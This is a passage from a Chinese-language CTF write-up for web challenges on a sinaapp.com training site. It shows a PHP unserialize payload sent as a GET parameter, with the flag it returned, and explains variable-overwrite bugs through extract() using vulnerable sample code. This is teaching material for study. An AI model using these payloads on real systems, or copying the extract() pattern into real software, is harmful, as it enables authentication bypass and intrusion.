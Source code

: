 GET传值过去：

```
http://4.chinalover.sinaapp.com/web25/index.php?pass=O:8:%22just4fun%22:2:{s:5:%22enter%22;N;s:6:%22secret%22;R:2;}
```

得到：

```
Congratulation! Here is my secret: thisisnctfsecret
```

 

 

 

### [变量覆盖](http://chinalover.sinaapp.com/web18/)

考点：变量覆盖漏洞

题目关键部分源码：

```
<?php if ($_SERVER["REQUEST_METHOD"] == "POST") { ?>
                        <?php
                        extract($_POST);
                        if ($pass == $thepassword_123) { ?>
                            <div class="alert alert-success">
                                <code><?php echo $theflag; ?></code>
                            </div>
                        <?php } ?>
<?php } ?>
```

整理为：

```
<?php

if ($_SERVER["REQUEST_METHOD"] == "POST") {
                        extract($_POST);
                        if ($pass == $thepassword_123) {
                             echo $theflag;
                        }
}

?>
```

- 变量覆盖漏洞大多数由函数使用不当导致，经常引发变量覆盖漏洞的函数有：extract(), parse_str() 和 import_request_variables()

 

**extract()变量覆盖**

- *extract() 函数从数组中把变量导入到当前的符号表中。对于数组中的每个元素，键名用于变量名，键值用于变量值。*

```
<?php

$auth = '0';
extract($_GET)；

if($auth==1){
echo "private!";
}else{
echo "public!";
}
?>
```
